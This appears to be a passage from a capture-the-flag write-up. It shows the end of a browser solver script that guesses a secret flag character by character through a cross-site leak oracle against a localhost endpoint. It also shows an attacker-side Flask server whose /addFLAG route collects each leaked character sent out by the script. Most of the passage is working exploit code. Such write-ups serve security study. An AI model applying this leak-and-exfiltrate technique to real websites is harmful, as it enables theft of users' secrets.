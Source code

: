 ```html
            
            for (let i = 0; i < 30; i++) {
                let found = false;
                for (let j = 0; j < ALPHABET.length; j++) {
                    let temp = curr + ALPHABET[j];
                    console.log(`Trying: ${temp}`);
                    fetch("/try..." + decodeURIComponent(temp));

                    if (await leak(`http://localhost/flag?flag=${temp}`)) {                        
                        fetch("/addFLAG?flag=" + decodeURIComponent(ALPHABET[j]));
                        curr += ALPHABET[j];
                        found = true;
                        break;
                    }
                }
                if (!found) break; 
            }
        })()
    </script>
</body>
</html>
```
<br>

**app.py**
```py
from flask import Flask, request, render_template

flag = "hspace{"
app = Flask(__name__)

@app.route('/solv')
def solv():
    return render_template('index.html',flag=flag)

@app.route('/addFLAG')
def addFLAG():
    global flag
    
    if 'flag' in request.args:
        flag += request.args['flag']
        print(flag)
        return 'added'
    return 'no flag'


@app.route('/getFlag')
def getFlag():
    return flag


if __name__ == '__main__':
    app.run('0.0.0.0', port=30000)
```

---